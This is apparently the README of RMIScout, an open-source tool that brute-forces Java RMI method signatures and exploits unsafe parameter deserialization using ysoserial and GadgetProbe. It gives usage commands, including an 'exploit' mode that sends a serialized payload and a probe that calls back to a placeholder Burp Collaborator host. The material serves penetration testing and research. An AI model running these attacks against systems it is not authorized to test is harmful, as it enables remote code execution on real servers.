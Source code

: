 <p align="center">
  <img src="assets/RMIScout.png" width=600/>
</p>

#



![License](https://img.shields.io/badge/license-MIT-lightgrey.svg)
![Python version](https://img.shields.io/badge/java-8%2b-blue.svg)

### Description

RMIScout performs wordlist and bruteforce attacks against exposed Java RMI interfaces to safely guess method signatures without invocation.

On misconfigured servers, any known RMI signature using non-primitive types (e.g., `java.lang.String`), can be exploited by replacing the object with a serialized payload. This is a fairly common misconfiguration (e.g., VMWare vSphere Data Protection + vRealize Operations Manager, Pivotal tc Server and Gemfire, Apache Karaf + Cassandra)  as highlighted in  [An Trinh's 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf).

RMIScout integrates with [ysoserial](https://github.com/frohoff/ysoserial/) and [GadgetProbe](https://github.com/bishopfox/gadgetprobe) to perform deserialization attacks against services incorrectly configuring process-wide serialization filters ([JEP 290](https://openjdk.java.net/jeps/290)).

<p align="center">
  <img src="assets/wordlist_attack.png" width=800/>
</p>

### Motivation

I wanted a tool to do the following tasks:
1. Provide wordlist and text-based bruteforce strategies instead of bruteforcing a 64-bit method hash.
2. Identify RMI methods without invoking them.
3. Provide a simple way to exploit the known issue of unsafe RMI parameter unmarshalling and integrate with ysoserial or payloads implementing `ysoserial.payloads.ObjectPayload`.
4. Integrate GadgetProbe to identify remote classes to help identify relevant software and construct gadget chains.

To start off your search, the included `lists/prototypes.txt` wordlist is a deduplicated wordlist from 15,000 RMI prototypes found in OSS projects across GitHub. Feel free to submit a PR to include more :)

### How it works

To identify but not execute RMI functions, RMIScout uses low-level RMI network functions and dynamic class generation to send RMI invocations with deliberately mismatched types to trigger remote exceptions. All parameters are substituted for a dynamically generated serializable class with a 255-character name assumed to not exist in the remote class path. For example:

Remote Interface:
```
void login(String user, String password)
```
RMIScout will invoke:
```
login((String) new QQkzkn3..255 chars..(), (String) new QQkzkn3..255 chars..())
```
If the class is present this will result in a remote `java.rmi.UnmarshalException` cased by the `ClassNotFoundException` or argument unmarshalling error without invoking the underlying method.

Read a [full technical writeup here](https://know.bishopfox.com/research/rmiscout).

### Usage

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port>
```


### Building and Running

Use the included `rmiscout.sh` script to automatically build the project and as a convenient wrapper around `java -jar` syntax:
```bash
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>
```

Alternatively, build the project manually and use traditional `java -jar` syntax:

```bash
# Manually build JAR
./gradlew shadowJar

java -jar build/libs/rmiscout-1.02-SNAPSHOT-all.jar wordlist -i lists/prototypes.txt <host> <port>
```


### Try It out
Run the demo RMI server. Try out the included `demo/wordlist.txt`.
```bash
cd demo
./start.sh
```
### Author

Twitter: [@BumbleSec](https://twitter.com/theBumbleSec)

GitHub: [the-bumble](https://github.com/the-bumble/)
